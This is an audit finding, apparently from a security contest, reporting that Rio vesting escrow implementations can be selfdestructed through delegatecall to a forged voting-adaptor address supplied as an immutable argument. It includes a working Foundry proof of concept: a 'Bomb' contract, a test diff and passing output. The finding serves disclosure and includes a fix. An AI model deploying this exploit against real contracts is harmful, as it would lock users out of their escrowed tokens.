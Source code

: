 Cheery Carob Gecko

high

# Vaults can be bricked by `selfdestruct()`ing implementations, using forged immutable args

## Summary

The clone-with-immutable-args pattern is unsafe to use when one of the immutable arguments controls an address being delegated to.


## Vulnerability Detail

As was seen in the Astaria beacon proxy [issue](https://x.com/apoorvlathey/status/1671308196743647232?s=20), an attacker is able to forge the calldata that the proxy normally would forward, and can cause the implementation to `selfdestruct()` itself via a `delegatecall()`. The current code has a very similar vulnerability, in that every escrow performs a `delegatecall()` to an address coming from the factory, which is a forgeable immutable argument.


## Impact

By creating a fake `IVotingAdaptor`, and providing properly-formatted calldata to the implementation contract being passed to each factory, an attacker can gain control via the `delegatecall()` in order to `selfdestruct()` each of the factories' implementations, preventing each factory's escrows from functioning further, including the withdrawal of tokens by any party.


## Code Snippet

The `factory()` function gets its value from an immutable argument:
```solidity
// File: src/VestingEscrow.sol : VestingEscrow.factory()   #1

18        /// @notice The factory that created this VestingEscrow instance.
19        function factory() public pure returns (IVestingEscrowFactory) {
20            return IVestingEscrowFactory(_getArgAddress(0));
21:       }
```
https://github.com/sherlock-audit/2024-01-rio-vesting-escrow/blob/main/rio-vesting-escrow/src/VestingEscrow.sol#L18-L21

whose subsequent [responses](https://github.com/sherlock-audit/2024-01-rio-vesting-escrow/blob/main/rio-vesting-escrow/src/VestingEscrow.sol#L234-L236) end up being used with `delegatecall()`s:
```solidity
// File: src/VestingEscrow.sol : VestingEscrow.vote()   #2

152        /// @notice Participate in a governance vote using all available tokens on the contract's balance.
153        /// @param params The ABI-encoded data for call. Can be obtained from VotingAdaptor.encodeVoteCalldata.
154        function vote(bytes calldata params) external onlyRecipient whenVotingAdaptorIsSet returns (bytes memory) {
155            return _votingAdaptor().functionDelegateCall(abi.encodeCall(IVotingAdaptor.vote, (params)));
156:       }
```
https://github.com/sherlock-audit/2024-01-rio-vesting-escrow/blob/main/rio-vesting-escrow/src/VestingEscrow.sol#L152-L156

```solidity
// File: src/adaptors/OZVotingAdaptor.sol : OZVotingAdaptor.delegate()   #3

55        /// @notice Delegate votes.
56        /// @param params The ABI-encoded delegatee address.
57        function delegate(bytes calldata params) external {
58            IVotes(votingToken).delegate(abi.decode(params, (address)));
59:       }
```
https://github.com/sherlock-audit/2024-01-rio-vesting-escrow/blob/main/rio-vesting-escrow/src/adaptors/OZVotingAdaptor.sol#L55-L59

## Tool used

Manual Review


## Recommendation

Use a state/contract variable for anything requiring being delegated to.


## PoC

Because of a [foundry bug](https://github.com/foundry-rs/foundry/issues/1543) the test is not able to show the end result of the `selfdestruct()`, so I've added a print statement
```diff
diff --git a/rio-vesting-escrow/test/VestingEscrow.t.sol b/rio-vesting-escrow/test/VestingEscrow.t.sol
index eafb7dc..55c95a8 100644
--- a/rio-vesting-escrow/test/VestingEscrow.t.sol
+++ b/rio-vesting-escrow/test/VestingEscrow.t.sol
@@ -6,6 +6,20 @@ import {IVestingEscrow} from 'src/interfaces/IVestingEscrow.sol';
 import {OZVotingAdaptor} from 'src/adaptors/OZVotingAdaptor.sol';
 import {ERC20NoReturnToken} from 'test/lib/ERC20NoReturnToken.sol';
 import {ERC20Token} from 'test/lib/ERC20Token.sol';
+import {console} from 'forge-std/Test.sol';
+
+contract Bomb {
+    function attack(address impl) external {
+        (bool success, ) = impl.call(abi.encodePacked(bytes4(keccak256("vote(bytes)")), bytes32(0), address(this), address(this), address(this), uint40(block.timestamp), uint40(block.timestamp + 1), uint40(0), uint40(1), uint16(82)));
+        require(success);
+    }
+    function votingAdaptor() external view returns (address) { return address(this); } function factory() external view returns (address) { return address(this); } function recipient() external view returns (address) { return address(this); }
+    function vote(bytes calldata) external {
+        console.log("bomb is being delegatecall()ed to; calling selfdestruct()");
+        selfdestruct(payable(address(0)));
+    }
+}
+
 
 contract VestingEscrowTest is TestUtil {
     function setUp() public {
@@ -586,9 +600,11 @@ contract VestingEscrowTest is TestUtil {
         deployedVesting.revokeAll();
     }
 
-    function testRevokeAll() public {
+    function testRevokeAllBomb() public {
         uint256 ownerBalance = token.balanceOf(factory.owner());
 
+        new Bomb().attack(address(vestingEscrowImpl));
+
         vm.prank(factory.owner());
         deployedVesting.revokeAll();
 
diff --git a/rio-vesting-escrow/test/lib/TestUtil.sol b/rio-vesting-escrow/test/lib/TestUtil.sol
index 8667ef4..68c60ec 100644
--- a/rio-vesting-escrow/test/lib/TestUtil.sol
+++ b/rio-vesting-escrow/test/lib/TestUtil.sol
@@ -39,6 +39,7 @@ contract TestUtil is Test {
     OZVotingToken public token;
 
     VestingEscrow public deployedVesting;
+    VestingEscrow public vestingEscrowImpl;
 
     uint256 public amount;
     address public recipient;
@@ -52,8 +53,9 @@ contract TestUtil is Test {
         token = new OZVotingToken();
         governor = new GovernorVotesMock(address(token));
         ozVotingAdaptor = new OZVotingAdaptor(address(governor), address(token), config.owner);
+        vestingEscrowImpl = new VestingEscrow();
         factory = new VestingEscrowFactory(
-            address(new VestingEscrow()), address(token), config.owner, config.manager, address(ozVotingAdaptor)
+            address(vestingEscrowImpl), address(token), config.owner, config.manager, address(ozVotingAdaptor)
         );
 
         vm.deal(RANDOM_GUY, 100 ether);
```

output:
```text
% forge test --match-test testRevokeAllBomb -vvv
[⠢] Compiling...
No files changed, compilation skipped

Running 1 test for test/VestingEscrow.t.sol:VestingEscrowTest
[PASS] testRevokeAllBomb() (gas: 342335)
Logs:
  bomb is being delegatecall()ed to; calling selfdestruct()

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 9.79ms
```

